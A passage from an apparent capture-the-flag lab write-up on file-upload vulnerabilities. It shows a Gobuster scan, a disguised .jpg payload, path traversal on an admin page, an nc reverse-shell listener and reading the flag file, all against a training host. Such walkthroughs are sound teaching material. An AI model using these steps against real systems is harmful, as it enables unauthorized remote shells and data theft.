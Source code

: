 - Find the file with Gobuster

```bash
gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist_1593564107766.txt -t 64 -x jpg

/ABH.jpg              (Status: 200) [Size: 705442]
/ASK.jpg              (Status: 200) [Size: 6789]
/DQF.jpg              (Status: 200) [Size: 382]
/KLK.jpg              (Status: 200) [Size: 6789]
/LKQ.jpg              (Status: 200) [Size: 444808]
/OHC.jpg              (Status: 200) [Size: 6789]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
```

- Opening the file at [http://jewel.uploadvulns.thm/content/DQF.jpg](http://jewel.uploadvulns.thm/content/DQF.jpg) with `nc` listener, no reverse shell is received

![](.gitbook/assets/2024-12-04_23-32-46_829.png)

- Start a `nc` listener on the port setup in the `jewel.js` payload file
- Open the found admin page at [http://jewel.uploadvulns.thm/admin](http://jewel.uploadvulns.thm/admin)
  - try to enter the file name to execute as is `DQF.jpg` - not working
  - try to use the path to the file `../content/DQF.jpg` - Success, received reverse shell

```bash
nc -nvlp 1234

# Rev Shell
pwd
/var/www/html
cat /var/www/flag.txt
```

---

